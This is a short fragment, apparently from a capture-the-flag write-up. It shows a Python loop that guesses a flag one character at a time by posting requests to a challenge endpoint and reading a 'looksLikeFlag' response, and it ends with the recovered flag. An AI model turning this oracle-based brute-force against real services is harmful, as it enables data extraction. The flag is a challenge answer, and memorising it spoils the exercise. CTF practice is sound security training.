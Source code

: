 ```python {linenos=table, linenostart=0}
# examine the flag digit by digit
while True:
    for i in digits:
        res = requests.post(host, json={"text": f"{exploitEndpoint}?flag=FLAG{{{flag}{i}"})
        if (res.status_code == 200) and (res.json()['looksLikeFlag'] == True):
            flag = flag + i
            print(flag)
    if flag[-1] == '}':
        break

print(f"FLAG{{{flag}")

## FLAG{3asy_p4th_tr4vers4l}
```